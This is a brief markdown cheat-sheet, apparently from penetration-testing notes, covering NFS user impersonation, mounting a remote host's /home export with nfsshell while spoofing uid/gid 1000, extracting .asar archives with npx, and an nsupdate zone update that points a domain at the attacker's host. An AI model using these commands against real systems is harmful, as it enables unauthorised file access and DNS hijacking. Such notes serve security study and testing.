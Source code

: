 ## NFS

```console
$ sudo useradd <USERNAME>
$ sudo usermod -u <ID> <USERNAME>
$ sudo su <USERNAME>
```

## nfsshell

```console
$ sudo apt-get install libreadline-dev libncurses5-dev
$ cd nfsshell
$ make
$ ./nfsshell
```

```console
$ sudo ./nfsshell <RHOST>
nfs> host <RHOST>
Using a privileged port (1023)
Open <RHOST> (<RHOST>) TCP
nfs> export
Export list for <RHOST>:
/home                    everyone
nfs> mount /home
Using a privileged port (1022)
Mount `/home', TCP, transfer size 65536 bytes.
nfs> uid 1000
nfs> gid 1000
nfs> cd <USERNAME>
nfs> ls
```

## npx

### Unpacking .asar-Files

```console
$ npx asar extract <FILE>.asar /PATH/TO/FOLDER/
```

## nsupdate

### Zone Update

```console
$ nsupdate
> server <RHOST>
> zone <DOMAIN>
> update add <DOMAIN> 3600 A <LHOST>
> send
> quit
```
